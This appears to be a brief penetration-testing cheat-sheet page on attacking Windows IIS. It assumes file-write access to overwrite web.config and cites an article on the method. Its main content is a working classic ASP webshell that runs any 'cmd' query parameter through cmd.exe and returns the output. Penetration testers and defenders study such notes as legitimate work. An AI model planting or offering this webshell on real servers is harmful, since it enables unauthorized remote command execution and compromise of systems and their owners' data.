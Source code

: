 # Windows IIS

## Short Filename

## web.config

In this exploit we take the assumption that we have file write into a web-app and are able to overwrite the web.config file.  The article [Upload a web.config File for Fun and Profit](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) shows us a few we can upload to achieve various objectives.  

We can achieve a simple webshell with the follow classic ASP code:

```asp
set cmd = Request.QueryString("cmd")
Set os = Server.CreateObject("WSCRIPT.SHELL")
output = os.exec("cmd.exe /c " + cmd).stdout.readall
response.write output
```

